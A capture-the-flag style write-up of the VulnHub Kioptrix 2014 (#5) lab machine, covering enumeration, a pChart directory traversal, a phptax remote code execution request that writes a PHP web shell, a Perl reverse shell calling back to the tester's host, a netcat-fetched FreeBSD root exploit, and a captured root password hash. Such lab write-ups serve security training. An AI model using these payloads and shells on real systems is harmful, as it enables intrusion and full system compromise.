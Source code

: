 [VulnHub] Kioptrix: 2014 (#5)
===============
date: 09/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_kioptrix5/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 12:11:53 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/xml/_quick_tcp_nmap.xml 192.168.92.185
Nmap scan report for 192.168.92.185
Host is up, received arp-response (0.00043s latency).
Scanned at 2019-10-09 12:11:53 PDT for 35s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:0B:79:90 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 12:12:28 2019 -- 1 IP address (1 host up) scanned in 35.43 seconds
```

2\. While exploring the `80/tcp` service, we find a HTML comment that points to `pChart2.1.3/index.php`:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot01.png)  

![writeup.enumeration.steps.2.2](/static/files/posts_vulnhub_kioptrix5/screenshot02.png)  

![writeup.enumeration.steps.2.3](/static/files/posts_vulnhub_kioptrix5/screenshot03.png)  

### Findings
#### Open Ports:
```
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
```
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot04.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot05.png)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot06.png)  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
```
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot07.png)  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_kioptrix5/screenshot08.png)  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
```
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_kioptrix5/screenshot09.png)  

![writeup.exploitation.steps.4.2](/static/files/posts_vulnhub_kioptrix5/screenshot10.png)  

![writeup.exploitation.steps.4.3](/static/files/posts_vulnhub_kioptrix5/screenshot11.png)  

![writeup.exploitation.steps.4.4](/static/files/posts_vulnhub_kioptrix5/screenshot12.png)  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
```
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_kioptrix5/screenshot13.png)  

![writeup.exploitation.steps.5.2](/static/files/posts_vulnhub_kioptrix5/screenshot14.png)  

## Phase #2.5: Post Exploitation
```
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
```
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot15.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot16.png)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot17.png)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_kioptrix5/screenshot18.png)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_kioptrix5/screenshot19.png)  

2\. We can now view the `congrats.txt` file to complete the challenge:  
```
cat /root/congrats.txt
```
![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot20.png)  

## Loot
### Hashes
```
root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:..............
```

## References
* <https://www.vulnhub.com/entry/kioptrix-2014-5,62/>  
* <https://www.abatchy.com/2017/01/kioptrix-2014-5-walkthrough-vulnhub.html>  
* <https://jhalon.github.io/vulnhub-kioptrix5/>  
